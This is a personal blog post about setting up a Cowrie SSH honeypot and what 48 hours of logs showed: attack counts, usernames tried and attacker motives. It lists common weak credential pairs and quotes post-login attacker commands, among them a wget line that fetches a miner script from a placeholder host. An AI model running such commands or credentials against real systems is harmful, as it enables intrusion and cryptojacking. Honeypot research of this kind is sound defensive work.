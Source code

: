 ```yaml
---
layout: post
title: "My First Honeypot: 48 Hours of Internet Chaos"
date: 2025-06-10
tags: [honeypot, security, research]
excerpt: "Finally deployed my first honeypot this week. What I thought would be a simple 'set it and forget it' project turned into an eye-opening crash course in just how hostile the internet really is."
---
```


Finally deployed my first honeypot this week. What I thought would be a simple "set it and forget it" project turned into an eye-opening crash course in just how hostile the internet really is.

The numbers are staggering: 847 login attempts in the first 48 hours, from 23 different countries. But the real story is in the patterns, the persistence, and honestly... how personal some of these attacks feel.

<div class="ascii-header">
<pre>
██   ██  ██████  ███    ██ ███████ ██    ██ ██████   ██████  ████████ 
██   ██ ██    ██ ████   ██ ██       ██  ██  ██   ██ ██    ██    ██    
███████ ██    ██ ██ ██  ██ █████     ████   ██████  ██    ██    ██    
██   ██ ██    ██ ██  ██ ██ ██         ██    ██      ██    ██    ██    
██   ██  ██████  ██   ████ ███████    ██    ██       ██████     ██    
                                                                       
    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
</pre>
</div>

### The Setup Journey

I chose Cowrie after researching honeypot options for about a week. The SSH/Telnet simulation looked solid, and the logging capabilities seemed comprehensive enough for what I wanted to learn.

Installation on my Ubuntu 22.04 VPS was smoother than expected:

```bash
sudo apt update && sudo apt install git python3-virtualenv
git clone https://github.com/cowrie/cowrie
cd cowrie
virtualenv --python=python3 cowrie-env
source cowrie-env/bin/activate
pip install --upgrade pip setuptools
pip install -r requirements.txt
```

<div class="methodology">
<h4>My Configuration Decisions</h4>
<p>Rather than use defaults, I spent time thinking through the config:</p>
<ul>
    <li><strong>Hostname:</strong> "server-prod-01" - generic enough to be believable</li>
    <li><strong>SSH version:</strong> OpenSSH_7.4 - slightly outdated to attract more attempts</li>
    <li><strong>Filesystem:</strong> Ubuntu 18.04 layout with realistic file structure</li>
    <li><strong>Services:</strong> Minimal running processes to seem like a real but poorly maintained server</li>
</ul>
</div>

### Reality Check: The First 48 Hours

Holy shit. I genuinely wasn't prepared for the volume or the... persistence.

Within 2 hours of going live, the first scan hit. By hour 6, I had consistent traffic. By day 2, I'm looking at attempts every 3-4 minutes during peak hours.

#### The Numbers That Hit Different
- **847 total login attempts** in 48 hours
- **23 unique source countries** (China, Russia, US leading)
- **156 different usernames** attempted
- **89 different passwords** tried
- **Longest session:** 23 minutes of active commands

### What Actually Surprised Me

#### The Creativity in Usernames
Sure, there's the predictable stuff: admin, root, user, test. But then you get attempts like "minecraft", "steam", "discord" - targeting gamers. Or "accounting", "reception", "manager" - clearly targeting small businesses.

Someone is thinking about psychology here, not just running dictionary attacks.

#### The Persistence Factor
One IP from Romania tried 47 different combinations over 6 hours. That's not automated spray-and-pray - that's someone actually sitting there, methodically working through possibilities.

It made me realize how personal this stuff can feel, even when you know it's just opportunistic scanning.

### Technical Insights

<div class="methodology">
<h4>Attack Pattern Analysis</h4>
<p>Most common credential combinations (in order):</p>
<ol>
    <li>root/123456</li>
    <li>admin/admin</li>
    <li>root/password</li>
    <li>user/user</li>
    <li>root/root</li>
</ol>
<p>But the interesting stuff happens after successful "login" to the honeypot...</p>
</div>

When attackers think they're in, their first commands tell a story:
- `whoami && id` - checking privileges
- `uname -a` - system reconnaissance
- `cat /proc/cpuinfo` - hardware assessment (crypto mining?)
- `wget http://[suspicious-domain]/miner.sh` - yep, crypto mining

### The Emotional Side Nobody Talks About

This is the part that caught me off guard. Watching the logs fill up in real-time... there's something visceral about seeing your server under constant attack attempts.

Even knowing it's just a honeypot, even knowing I set this up intentionally, there's this weird feeling of being hunted. Every few minutes, someone new is probing, testing, trying to break in.

It makes you realize how much trust we put in our security measures every day, and how many people are actively trying to break that trust.

### Methodology Moving Forward

This was just the beginning. Next steps in my honeypot journey:

<div class="methodology">
<h4>Analysis Pipeline</h4>
<ol>
    <li><strong>ELK Stack Setup:</strong> Elasticsearch, Logstash, Kibana for proper log analysis</li>
    <li><strong>GeoIP Integration:</strong> Better geographic attack visualization</li>
    <li><strong>Threat Intelligence:</strong> Cross-reference IPs with known threat feeds</li>
    <li><strong>Behavioral Analysis:</strong> Pattern recognition in post-login commands</li>
</ol>
</div>

### Honest Reflections

Setting up the honeypot was technically straightforward. The hard part is processing what you learn about the threat landscape.

Every attack attempt represents someone actively trying to compromise systems like mine. That's not theoretical anymore - it's documented, timestamped reality sitting in my log files.

It's motivating as hell for continuing down the cybersecurity path, but also sobering. This isn't just about technical skills anymore; it's about understanding adversary mindset and staying one step ahead of people who are very clearly not giving up.

Next week I'm expanding the honeypot network and diving deeper into the behavioral analysis. The internet is a wild place, and I'm just getting started understanding how wild. 
